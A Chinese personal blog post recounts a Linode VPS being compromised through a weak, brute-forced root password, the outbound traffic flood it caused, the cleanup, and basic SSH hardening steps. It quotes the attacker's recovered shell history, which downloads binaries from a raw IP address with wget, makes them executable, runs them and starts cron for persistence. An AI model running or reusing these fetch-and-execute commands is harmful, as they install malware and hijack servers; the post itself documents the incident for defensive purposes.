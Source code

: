```yaml
---
title: linode 使用记
image: https://yun.weenas.com:8006/i/2023/06/04/647c0b71201f2.jpg
date: 2016-12-21 14:48:15
tags:
description: "VPS初体验"
categories:
  - 网络
  - VPS
keywords:
  - VPS
  - linode
hide: true
---
```


使用Linode也有一段时间了，感觉非常不错，虽然使用的是加州的机房，延时基本上稳定在200ms左右，web访问感觉不明显，ssh尚可接受。据说日本机房在100ms多一点，但是考虑到要做迁移工作，还是先保持不动吧，待有时间再研究。

<!--more-->

由于以前都是在局域网或者虚拟机上搭建服务器，从来没有关注过安全方面的配置，导致我的VPS安全配置不足。上个月遭受到Dos攻击，让我意识到了安全的重要性 ，以前没有什么概念，原来网络攻击离我们这么近。

被攻击后的症状是疯狂的往外发数据，从下面的图表可以看出有三天的时间几乎是满负荷的发送（注意看左边的单位），导致我2TB的流量在两天不到就被消耗殆尽。其实在使用80%流量时系统会自动发送邮件提醒，当时正值国庆假期，收到邮件时没有引起重视。后来Linode客服也发现了异常，主动创建了一个Ticket问我是怎么回事，我才发现流量已经超了400多G。。
![linode_data_traffic.jpg](https://yun.weenas.com:8006/i/2023/06/04/647c0b7224c8f.jpg)

赶紧登录上去使用nethogs查看网络使用情况，原来是一个名叫mysql515的进程在以80Mbps左右的速度往外发送数据，立即kill掉再想办法清理。

想要知道为什么被攻击，就必须知道哪些人登录过服务器，/var/log/auth.log是一个重要的线索，它记录了所有用户的登录日志。打开后非常壮观，已经有好几万行的日志，其中有很大一部分都是尝试root和admin的错误登录记录，应该是利用脚本不断的尝试root密码。这么多日志也不好去查什么时间被谁攻破，我估计root密码已经被试出来了，因为我的密码是一个常用单词。查看/root/.bash_history，一切都明白了：

```shell
service crond start
/etc/rc.d/init.d/crond start
killall -9 cnet2
cd /bin
rm -rf cnet2
wget -c http://61.160.194.120:120/cnet2
chmod 0755 /bin/cnet2
./cnet2
cd /etc
mkdir init.d
mkdir rc.d
cd /etc/rc.d
mkdir rc5.d
cd /bin
rm -rf mysql515 cnet2 socket
wget -c http://61.160.194.120:121/mysql515
chmod 0777 /bin/mysql515
./mysql515
service crond start
/etc/rc.d/init.d/crond start
```

按图索骥，根据它执行的命令将所有相关的文件找到并彻底删除，注意有启动cron服务，它在/etc/crontab里面增加了一个定时启动脚本，也要一并删除，不然还会死灰复燃。

以上只是查找和清除病毒文件，如何防止以后再被攻击呢？我做了以下措施：

1. 必须的，修改root密码，大写小写数字符号，能用上的都用上，不要忘记就好。:)
2. 禁止ssh的root登录，修改/etc/ssh/sshd_config，将PermitRootLogin yes改为PermitRootLogin no
3. 修改ssh的默认端口，只要65535以内都行，也在/etc/ssh/sshd_config，Port 65535，当然，登录需要多增加一个参数：ssh -p 65535 user@server.com

修改后，再去查看/var/log/auth.log，世界一下就清净了。当然，以上的修改不足以使VPS非常安全，但是防止普通的攻击已经足够了。

这里要赞一个Linode的客服，他们的服务非常的周到而且专业，主动建立Ticket，每天都会在Ticket上问你的进展并询问你是否需要帮助，在任何时候你需要帮助他们都会在10分钟以内给予你答复，一个月10刀的价格我觉得值了，想想国内的公司什么时候能做到这种水平。

忘记说超流量的收费问题了，信用卡账单下来才知道这个月多收了47刀，价格是0.1刀/1G，也就是说我超了470G，价格不便宜，但是正常使用我想怎么样也不会超吧，所以请大家千万做好防护措施。万幸的是攻击发生在月末，有部分流量是算10月份的，否则多交的钱可能翻番。

最后，祝大家都能拥有满意的VPS！
